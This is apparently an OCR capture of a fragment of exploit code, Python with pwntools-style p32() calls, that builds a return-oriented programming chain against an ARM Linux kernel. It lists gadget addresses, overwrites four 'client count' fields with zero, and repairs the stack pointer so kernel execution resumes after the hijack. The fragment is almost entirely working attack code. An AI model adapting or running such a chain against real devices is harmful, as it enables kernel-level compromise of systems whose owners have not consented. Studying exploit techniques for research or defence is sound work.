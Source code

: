 ```

## need to change four incorrect client counts to 0 (0xc09b10ec, 0xC09B1184, 0xC09B121C, 0xC09B12B4)
# | 0xc05460e0 | c05460e0 | mov r0,#0x0 | c05460e4 | ldmia sp!,{r4,r5,r11,pc} | 
request += p32(0xc0237e44) # r4
request += p32(0xC09B1184 - 0xc) # r5
request += p32(0xc09b10ec + 0x510) # r11
request += p32(0xc04092b0) # pc

# | 0xc04092b0 | c04092b0 | str r0,[r11,#-0x510] | c04092b4  | blx r4 |

# | 0xc0237e44 | c0237e44 | str r0,[r5,#0xc] | c0237e48 | ldmia sp!,{r4,r5,r11,pc} | 
request += p32(0xc0237e44) # r4
request += p32(0xC09B12B4 - 0xc) # r5
request += p32(0xC09B121C + 0x510) # r11
request += p32(0xc04092b0) # pc

# | 0xc04092b0 | c04092b0 | str r0,[r11,#-0x510] | c04092b4  | blx r4 | 

# | 0xc0237e44 | c0237e44 | str r0,[r5,#0xc] | c0237e48 | ldmia sp!,{r4,r5,r11,pc} | 
request += p32(0xdeadbeef) # r4
request += p32(0xdeadbeef) # r5 
request += p32(0xdeadbeef) # r11
request += p32(0xc003c2bc) # pc

# | 0xc003c2bc | ldmia sp!,{r4,r5,r6,r7,r8,pc} |
request += p32(0xc006bac0) # r4
request += p32(0xc09ae8d4 - 0x4) # r5
request += p32(0xc04460f0) # r6
request += p32(0xc03d444c) # r7
request += p32(0xc006aa74 - 1) # r8 (-1 to account for later clobber)
request += p32(0xc0533030) # pc

## now fix up the stack pointer, need to get stack pointer before the big proc buffers, then jump to end of function to pop them, then win

# | 0xc0533030 | c0533030 | cpy r3,r5 | c0533034 | blx r6 | 
# | 0xc04460f0 | c04460f0 | ldr r6,[r3,#0x4] | c04460f4 | blx r7 | 
# | 0xc03d444c | c03d444c | cpy r7,r6 | c03d4460 | blx r4 | <- so we can clobber lower registers and keep r7 safe, clobbers r6, r1, r0, r8 (should be fine here)

# 0xc006bac0: ldmia sp!,{r4,r5,r6,pc} 
request += p32(0xc06f06e8 - 4) # r4 <- where we load offset we add from - 4
request += p32(0xdeadbeef) # r5
request += p32(0xc050c2a0) # r6
request += p32(0xc013d628) # pc

# | 0xc013d628 | 0xc013d628 | ldr r1,[r4,#0x4] | 0xc013d62c | blx r6 |
# | 0xc050c2a0 | c050c2a0 | add r1,r7,r1 | c050c2a4  | blx r8 |  <- could work? Need to pre populate r8 earlier on (and account for clobbering)

#  0xc006aa74 : ldmia sp!,{r4,r5,r6,r7,r8,pc}
request += p32(0xc02202e4) # r4 <- we resume normal control here to 0xc021ff38 (because we should have now reset the stack pointer properly)
request += p32(0xdeadbeef) # r5
request += p32(0xc05c49d9) # r6 <- this is a thumb mode gadget
request += p32(0xc09afec0) # r7
request += p32(0xc03b2c40) # r8
request += p32(0xc0533910) # pc

# | 0xc0533910 | c0533910 | cpy r10,r1  | c0533914  | blx r8 | 
# | 0xc03b2c40 | c03b2c40 | mov r8,#0x0 | c03b2c44 | blx r6 |
```